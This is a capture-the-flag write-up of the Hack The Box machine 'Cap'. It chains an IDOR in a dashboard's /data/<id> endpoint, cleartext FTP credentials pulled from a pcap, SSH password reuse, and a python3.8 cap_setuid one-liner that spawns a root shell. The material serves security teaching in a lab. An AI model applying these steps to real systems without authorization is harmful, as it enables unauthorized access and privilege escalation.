





# HTB: Cap

**OS:** Linux &nbsp;|&nbsp; **Difficulty:** Easy &nbsp;|&nbsp; **Path:** IDOR to cleartext credential leak to Linux capability privesc

## Overview

Cap is an easy-difficulty Linux box built around a small web app that performs "security monitoring" functions for the host, including capturing live network traffic on demand. The intended path is: find the web app is vulnerable to IDOR, use that to read another user's packet capture, pull a cleartext FTP credential out of it, log in over SSH with the reused password, then abuse a Linux capability on a binary to escalate to root.

---

## 1. Reconnaissance

Target: `10.129.101.179`

Standard service/version scan:

```bash
nmap -sC -sV -oN nmap_cap <target-ip>
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
```



- `-sC`: nmap's default script scan (light enumeration/vuln checks)
- `-sV`: detects service versions on open ports
- `-oN <file>`: saves output to a file for later reference

Three ports open: FTP (21), SSH (22), and a web app on port 80 titled "Security Dashboard," served by Gunicorn (a Python/WSGI app server, a hint the backend is Python-based, which becomes relevant again during privilege escalation).

---

## 2. Web Enumeration: the Security Dashboard

Port 80 serves a dashboard with a few functions: IP Config (runs `ifconfig`), Network Status (runs `netstat`), and "Security Snapshot," a 5-second live packet capture.



Clicking "Security Snapshot" triggers a capture and redirects the browser to a URL of the form `/data/<id>`, where `<id>` is just an incrementing integer identifying that scan, with a download link for the raw `.pcap` file.

> **Why this matters:** The app never checks whether the `<id>` in the URL actually belongs to the logged-in user. Manually walking the id up or down (e.g. changing `/data/12` to `/data/0`) lets you view and download other users' packet captures. This class of bug, trusting a client-supplied identifier without an authorization check, is called **IDOR** (Insecure Direct Object Reference).

---

## 3. Traffic Analysis: finding the leaked credential

Walking the `/data/<id>` IDs down turned up one snapshot (`id 0`) that captured real activity, rather than an empty 5-second window. Downloaded and opened in Wireshark:

```bash
wireshark 0.pcap
```

Filtered on `ftp`, since FTP was one of the three open ports and, unlike SSH, it's a cleartext protocol: usernames and passwords are sent as plain, unencrypted text (`USER <name>`, then `PASS <password>`). Anyone who captures the traffic while a login happens can simply read the credentials back out.

- `USER <username>`: client sends the username
- `PASS <password>`: client sends the password
- Server response `230 Login successful`: confirms the pair is valid (`530` = failed attempt)



The same exchange, filtered down to the login sequence itself:



> Password blacked out above; recover it yourself from your own `0.pcap` capture. The point of the box is the IDOR + cleartext-protocol chain, not the literal string.

Recovered credential pair:

```
username: nathan
password: [redacted]
```

---

## 4. Foothold

Tried the recovered credentials against FTP first, since that's where the leak came from:



```
ftp <target-ip>
Name: nathan
Password: ********
230 Login successful.
```

Then tried the same pair over SSH, since password reuse between services is extremely common on these boxes, and it worked:

```bash
ssh nathan@<target-ip>
```

> FTP only understands its own narrow command set (`ls`, `get`, `put`, `cd`...); there's no way to run arbitrary system commands from it. SSH gives a real interactive shell on the target OS, which is what's actually needed to explore the filesystem and escalate privileges. Everything from this point on runs on Cap itself, not the local machine.

User flag, read from nathan's home directory:

```
cat user.txt
[flag redacted]
```

---

## 5. Privilege Escalation

Standard enumeration checklist as `nathan`:

```bash
sudo -l
```

```
Sorry, user nathan may not run sudo on cap.
```

No sudo rights, move on to SUID binaries and Linux capabilities:

```bash
find / -type f -perm -4000 2>/dev/null
getcap -r / 2>/dev/null
```

> SUID lets a binary run as its owner (often root) regardless of who launches it. Linux capabilities are a more fine-grained version of the same idea: a binary can be granted one specific root-level power without full SUID. `cap_setuid` specifically lets a process change its own user ID, including to 0 (root), which is exactly what's needed here.

The `getcap` scan turns up `/usr/bin/python3.8` with `cap_setuid+ep` set. Since Python can shell out to the OS, that capability can be used to spawn a root shell directly:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- `os.setuid(0)`: sets the current process's UID to 0 (root); allowed because the binary carries `cap_setuid`
- `os.system("/bin/bash")`: spawns a shell, which inherits that root UID

```bash
whoami
# root
```

Root flag:

```
cat /root/root.txt
[flag redacted]
```

---

## Summary of the chain

- Recon: nmap finds FTP, SSH, and a web "Security Dashboard" on Gunicorn
- The dashboard's Security Snapshot feature has an IDOR: `/data/<id>` isn't access-controlled
- Walking the IDs finds a capture containing a cleartext FTP login (`nathan`)
- Credential reuse gets the same pair working over SSH, foothold as `nathan`
- `nathan` has no sudo rights, but `python3.8` carries `cap_setuid`, abused to spawn a root shell
